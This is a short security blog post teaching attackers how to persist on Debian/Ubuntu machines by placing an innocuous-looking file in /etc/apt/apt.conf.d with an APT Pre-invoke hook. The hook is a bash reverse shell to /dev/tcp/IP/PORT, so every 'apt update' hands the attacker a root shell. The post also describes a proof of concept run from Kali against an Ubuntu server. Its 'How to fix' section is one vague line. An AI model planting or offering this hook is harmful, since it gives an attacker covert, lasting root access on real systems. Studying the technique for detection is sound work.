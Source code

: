 +++
author = "kiwiyumi"
date = "2024-02-28"
description = "Persistence with APT"
title = "Persistence with APT"
tags = [
    "post-exploitation",
    "persistence"
]
+++

<!--more-->

In today's article we'll talk about how to create a persistence from the APT package manager.  

# What is APT?
Advanced Package Tool (APT) is a command-line tool found in Debian/Ubuntu-based distributions, responsible for updating, installing, removing and managing packages.

# How does it work? 
Understanding the purpose of APT, there are several commands that a user can use, one of which is the **update** function, with the purpose of downloading updates and package information from all configured sources (repositories). Below is the command to run update:

```Bash
sudo apt update
```

In case you didn't notice in the previous command, APT is always used with **Root** permission, guaranteeing a shell with administrative permission.

# Configuring Persistence

When you gain access to the victim's machine, you must already have administrative permission, because only root users have permission to configure the APT directory, located at:

```bash
/etc/apt/apt.conf.d
```

In this directory, create a file that looks legitimate, for example:

```bash
touch 28update-dist
```

With the file created, use a text editor you like and enter the following malicious command:

```bash
APT::Update::Pre-invoke {"/bin/bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1' 2> /dev/null &"};
```

A brief explanation of the previous command, the first part is responsible for telling APT to invoke an action at update time, our reverse shell in this case. Next we have a classic reverse shell, then we redirect error messages to **/dev/null** and then we leave all this running in the background.

The following images show the file created on the victim's server and its contents:

![](/assets/images/persistence-with-apt/efd908a1-5b7b-46fe-baa0-c89287666033.png)

![](/assets/images/persistence-with-apt/f9450365-4571-4c3f-b954-8c5b8582e223.png)

# Proof of Concept

To carry out the proof of concept, two machines were used, a Kali Linux (Attacker) and an Ubuntu Server (Victim).

At first, the attacker must leave a port open waiting for the connection to be received. While on the victim's side, it is necessary to wait for them to update their packages with **update**, the moment they do so we can see that we have received a connection with an administrative shell. The following image illustrates this:

![](/assets/images/persistence-with-apt/08b85f18-330b-4b7e-97c4-634533664ff2.png)

# How to fix
If you have found a suspicious package, the mitigation is simple! Just delete the package responsible for doing so.

# Conclusion
In this article we can understand how an attacker can exploit APT to achieve persistence on Debian/Ubuntu systems, a technique that depends on the interaction of the legitimate user.

# References

- [https://ubuntu.com/server/docs/package-management](https://ubuntu.com/server/docs/package-management)